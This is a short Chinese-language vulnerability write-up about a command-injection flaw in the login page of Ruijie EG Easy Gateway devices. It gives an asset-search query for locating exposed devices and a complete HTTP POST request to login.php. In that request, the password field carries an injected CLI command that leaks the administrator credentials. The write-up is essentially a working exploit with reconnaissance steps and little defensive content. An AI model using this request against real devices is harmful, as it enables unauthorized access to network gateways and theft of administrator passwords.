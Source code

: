 # 锐捷 EG易网关管理员账号密码泄露漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">锐捷EG易网关 login.php存在 CLI命令注入，导致管理员账号密码泄露漏洞  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

```java
锐捷EG易网关
```

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

```java
app="Ruijie-EG易网关"
```

<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">●登录页面</font>

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/MxcQgnIcXQfNL8qR/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-391281.png)

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**<font style="color:rgb(38, 38, 38);"></font>

```java
POST /login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```

<font style="color:rgb(38, 38, 38);">  
</font>![1710773369558-0b735db6-3ccf-4af3-9aaf-4ba360e3dd91.png](./img/MxcQgnIcXQfNL8qR/1710773369558-0b735db6-3ccf-4af3-9aaf-4ba360e3dd91-254157.png)

![1710774024223-cd35f9b5-4b70-45e0-abf7-47aeefe164d6.png](./img/MxcQgnIcXQfNL8qR/1710774024223-cd35f9b5-4b70-45e0-abf7-47aeefe164d6-268712.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ewl6ikmuyvguq1ps>